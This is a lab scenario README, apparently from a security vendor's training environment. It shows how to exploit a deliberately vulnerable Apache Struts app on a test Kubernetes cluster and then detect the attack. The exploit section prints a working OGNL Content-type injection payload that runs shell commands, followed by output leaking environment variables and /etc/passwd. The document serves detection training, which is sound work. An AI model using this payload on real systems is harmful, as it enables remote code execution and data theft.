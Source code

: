 # Scenario: Detect Apache Struts RCE Vulnerability Exploitation

## Prerequisites

- Playground One EKS Cluster
- Vision One Container Security
- Playground One Scenarios
  - Running app: Java-Goof running on vulnerable Tomcat
- Extracted contents of `exploit.zip`

Ensure to have an ECS Cluster up and running:

```sh
pgo --apply eks
pgo --apply scenarios
```

If you need to extract the exploits unzip with the password `virus`:

```sh
cd ${ONEPATH}
unzip exploits.zip
```

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the ECS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Exploiting

First, retrieve the load balancer DNS name

```sh
pgo -o scenarios
```

Example output with ECS EC2:

```sh
loadbalancer_dns_health_check = "k8s-goat-healthch-e9104c52db-803985454.eu-central-1.elb.amazonaws.com"
loadbalancer_dns_hunger_check = "k8s-goat-hungerch-0816ee11b2-1006982801.eu-central-1.elb.amazonaws.com"
loadbalancer_dns_java_goof = "k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com"
loadbalancer_dns_openssl3 = "k8s-victims-webappin-8cd6b2fc5e-1459691118.eu-central-1.elb.amazonaws.com"
loadbalancer_dns_system_monitor = "k8s-goat-systemmo-09a16052b6-565756108.eu-central-1.elb.amazonaws.com"
```

You want the variable `loadbalancer_dns_java_goof`.

### Exploit

Run:

```sh
cd ${ONEPATH}/exploits/struts/
./struts-exploit.sh k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com
```

Expexted result:

```ascii
*   Trying 3.120.84.56:80...
* Connected to k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com (3.120.84.56) port 80 (#0)
> GET /todolist/ HTTP/1.1
> Host: k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com
> User-Agent: curl/7.81.0
> Accept: */*
> Content-type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='env').(#cmds={'/bin/bash','-c',#cmd}).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 11 Sep 2023 07:18:49 GMT
< Transfer-Encoding: chunked
< Connection: keep-alive
< Server: Apache-Coyote/1.1
< 
WEB_APP_SERVICE_SERVICE_PORT=80
KUBERNETES_SERVICE_PORT_HTTPS=443
TREND_AP_LOG_FILE=STDERR
JAVA_GOOF_SERVICE_SERVICE_PORT=8080
KUBERNETES_SERVICE_PORT=443
WEB_APP_SERVICE_PORT_80_TCP_ADDR=172.20.245.34
MAVEN_CONFIG=/root/.m2
MAVEN_PROJECTBASEDIR=/usr/src/goof
HOSTNAME=java-goof-6c95b8cd5f-qn49h
MAVEN_CMD_LINE_ARGS=/root/.m2 tomcat7:run
JAVA_GOOF_SERVICE_PORT_8080_TCP_PORT=8080
...
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 11 Sep 2023 07:18:49 GMT
< Transfer-Encoding: chunked
< Connection: keep-alive
< Server: Apache-Coyote/1.1
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
* Connection #0 to host k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com left intact
```

Vision One Observed Attack Techniques:

![alt text](images/xdr_for_containers-eks-struts-01.png "Exploit")
